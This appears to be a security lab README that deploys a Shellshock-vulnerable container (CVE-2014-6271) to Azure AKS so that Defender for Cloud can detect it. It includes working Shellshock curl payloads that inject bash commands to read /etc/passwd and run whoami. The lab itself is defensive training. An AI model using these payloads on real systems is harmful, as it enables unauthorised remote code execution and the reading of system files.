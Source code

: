 # In this lab we will use a ShellShock vulnerable docker image from the Docker Hub, store it in the Azure ACR and from there deploy to Azure AKS

We will exploit Shell-Shock vulnerabilities to execute RCE from an attaker por running in the same cluster
Defender for Cloud will show this specific vulnerability once the image is pushed to the registry (SAST) and also once the container is deployed as a kubernetes pod within your cluster (runtime detection/DAST)

Login to your Azure ACR registry where you will push the vulnerable image

```
docker login [LOGINSERVER] –u [USERNAME] –p [PASSWORD]
```

Download the shellshock container to your local build machine

```
docker pull vulnerables/cve-2014-6271
```

Run the following commands to properly tag your images to match your ACR account name.

```
 docker tag  vulnerables/cve-2014-6271  [ACR-LOGINSERVER]/cve-2014-6271:latest
 
 ```

 push docker image to ACR

```
 docker push [ACR-LOGINSERVER]/cve-2014-6271
 ```
In the Azure Portal, navigate to your ACR account, and select Repositories under Services on the left-hand menu

Defender for cloud will trigger the scan in the ACR registry to look for vulnerabilities in the image

Now, we will deploy a kubernetes pod using the shell-shock image stored in the ACR

Note we export the pod using the port 8080

As we will connect from another pod in the cluster to exploit RCE vulnerabilities of this container, we need to create a Kubernetes Service and map it to this deployment using match labels

```
apiVersion: v1
kind: Service
metadata:
  name: service-shell-shock
spec:
  type: ClusterIP  # ClusterIP is the default service type even if not specified
  selector:
    tag: shell-shock
  ports:
  - name: port8080
    protocol: TCP
    port: 8080  # this is the service port
    targetPort: 80 # this is the container port
```

```
apiVersion: apps/v1
kind: Deployment
metadata:
  name: shell-shock
spec:
  selector:
    matchLabels:
      app: shell-shock
  template:
    metadata:
      labels:
        app: shell-shock # the label for the pods and the deployments
    spec:
      containers:
      - name: shell-shock
        image: k8sgoatacr.azurecr.io/cve-2014-6271:latest # IMPORTANT: update with your own repository
        imagePullPolicy: Always
        ports:
        - containerPort: 8080 
```
Get the pods ip address using 

```
kubectl get pods -o wide
```

Enter into the shell-shock container

```
kubectl exec -it [shell-shock-pod] -- /bin/bash
````

And from the nginx pod in the cluster, we wille exploit RCE

```
kubectl exec -it [name-nginx-attacker-pod] -- /bin/bash
```

From here, issue commands to list /etc/passwd

```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://[ip-address-shell-shock-pod]:80/cgi-bin/vulnerable
```
and
```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'whoami'" http://[ip-address-shell-shock-pod]/cgi-bin/vulnerable
```

Now, wait for Defender to raise a recommendation under the ACR to resolve vulnerabilities found. This recommendation is part of SAST scanning, once the image has been pushed to the registry the sandbox will trigger the scan of vulnerabilities

![container-vul](/images/container-vuln.png)

Also, you may want to use the Cloud Security Explorer with the specific CVE-ID


![container-vuln-cloudsecexplorer](/images/container-vuln-cloud-sec-explorer.png)

From a DAST, vulnerable images can also be scanned by the runtime detection capabilities of Defender. Look for a recommendation like 'Running container images should have vulnerability findings resolved' and search for the specific CVE-ID of Shellshock

![running-container-vuln](/images/running-vulnerable-container.png)
 